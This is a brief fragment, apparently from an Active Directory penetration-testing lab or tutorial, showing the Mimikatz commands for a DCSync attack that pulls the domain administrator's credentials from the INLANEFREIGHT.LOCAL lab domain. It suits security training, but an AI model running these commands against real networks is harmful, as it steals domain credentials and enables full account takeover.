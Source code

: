 - **Performing the Attack with Mimikatz**
```
.\mimikatz.exe
> privilege::debug
> lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
sec  
```















